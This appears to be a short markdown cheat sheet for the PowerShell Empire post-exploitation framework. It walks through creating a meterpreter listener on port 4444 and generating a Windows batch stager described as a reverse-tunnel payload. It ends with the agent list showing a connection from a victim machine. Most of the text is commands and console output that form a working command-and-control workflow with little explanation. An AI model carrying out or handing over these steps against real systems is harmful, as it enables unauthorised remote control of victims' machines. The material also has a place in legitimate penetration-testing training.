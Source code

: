 ```yaml
---
title: Empire
author: i4
date: M11-02-2022
---
```

### Empire
#### Start
`sudo powershell-empire`
#### Listener

> Listeners in Empire are the channels that receive connections from our target machine. Before we do anything in Empire, we need to start the listeners. We can move to the listener management menu by typing command listeners as shown below.

`(Empire) > listeners`

`(Empire: listeners) > help`

* agents - Will allow you to jump to agents menu.
* back & main – Will take you back to the main menu.
* exit – Will exit from Empire.
* help – Will display help menu as shown in the above image.
* info – Will display information about the active listener.
* kill – Will kill a particular listener.
* launcher – Used to generate an initial launcher for a listener.
* list – Will list all the active listeners.
* usestager – Used to use a stager (we will see below what exactly is a stager).
* uselistener – Used to start a listener module.

##### Create new listener

```
(Empire: listeners) > uselistener
dbx     http_com        http_hop
http    http_foreign    meterpreter
(Empire: listeners) > uselistener meterpreter
(Empire: listeners/meterpreter) > set Name metr
(Empire: listeners/meterpreter) > set Port 4444
```

### Stagers
Stagers are like payloads to create a reverse tunnel (just like msfvenom for metasploit)
```
(Empire) > usestager

multi/bash                osx/macho                 windows/launcher_bat
multi/launcher            osx/macro                 windows/launcher_lnk
multi/macro               osx/pkg                   windows/launcher_sct
multi/pyinstaller         osx/safari_launcher       windows/launcher_vbs
multi/war                 osx/teensy                windows/launcher_xml
osx/applescript           windows/backdoorLnkMacro  windows/macro
osx/application           windows/bunny             windows/macroless_msword
osx/ducky                 windows/csharp_exe        windows/shellcode
osx/dylib                 windows/dll               windows/teensy
osx/jar                   windows/ducky
osx/launcher              windows/hta
(Empire) > usestager launcher_bat
(Empire: stager/windows/launcher_bat) > set Listener metrp
(Empire: stager/windows/launcher_bat) > execute

[*] Stager output written out to: /tmp/launcher.bat

(Empire: stager/windows/launcher_bat) >
```

### Agents
As soon as the stager gets executed on the victim we receive a connection back.
```
(Empire: agents) >  list

[*] Active agents:

 Name       Lang    Internal IP     Machine Name    Username    Process         Delay   Last Seen
 --------   ----    --------------  -------------   --------    -------         -----   -------------------
 7A9WSDPN   ps      XXXXXXXXXXXXXX  XXXXXXXXXXXXX   XXXXXXXX    powershell/4032 5/0.0   2020-03-29 09:00:44
```
